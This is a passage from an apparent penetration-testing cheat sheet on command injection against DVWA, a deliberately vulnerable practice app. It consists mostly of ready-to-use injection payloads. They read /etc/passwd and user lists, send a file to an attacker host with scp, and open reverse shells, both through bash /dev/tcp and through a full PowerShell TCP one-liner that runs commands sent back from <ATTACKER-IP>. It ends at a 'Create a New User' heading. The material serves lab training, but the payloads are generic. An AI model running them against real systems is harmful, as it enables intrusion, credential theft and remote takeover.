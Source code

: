 <details><summary> ⏬ DVWA</summary>
  
Basic Commands
````bash
  ; whoami
  && whoami #If successful, it should return the current user (e.g., www-data in Linux).
````
List Files & Directories
````bash
  ; ls -la    #linux
  && dir    #windows
````
Read Files & user info (Sensitive Info)
````bash
  ; cat /etc/passwd    #linux
  ; cut -d: -f1 /etc/passwd      #View Only Usernames in above
  && type C:\Windows\System32\drivers\etc\hosts      #windows
  net user     #View All Users in windows
  query user    #View Active Logged-in Users
  net user /domain    #View Domain Users
````
Get the file:
- Try Accessing via a Web Browser (If DVWA Has File Access)
````js
  http://<TARGET-IP>/DVWA/uploads/hash.txt
  //If the file is accessible, you can download it directly // wget
````
- LFI via web [browser](#web-explotation)
- using [smb](#enumeration)
- using [ftp](#enumeration)
- Windows:
    If you have Command Injection or an RCE shell, use:
    ````bash
    type C:\DVWA\uploads\hash.txt    #CMD (Windows)
    Get-Content C:\DVWA\uploads\hash.txt     #powershell
    scp C:\DVWA\uploads\hash.txt attacker@<ATTACKER-IP>:/home/kali/     #To transfer the file to your system
    
    meterpreter > download C:\\DVWA\\uploads\\hash.txt .   #If you have Meterpreter, download the file
    ````
Check Network & Connections
````bash
  #Linux:
  ; ifconfig
  ; netstat -an
  #Windows:
  && ipconfig
  && netstat -an
````
Get a Reverse Shell (Full Access)
If outbound connections are allowed, you can get a reverse shell, with [netcat](#netcat-reverse-shell)
````bash
  #If nc is unavailable, try:
  ; bash -i >& /dev/tcp/<ATTACKER-IP>/4444 0>&1
  
  #Windows Reverse Shell, set up listener on Kali:
  nc -lvnp 4444
  #Then inject:
  && powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ATTACKER-IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
````
Create a New User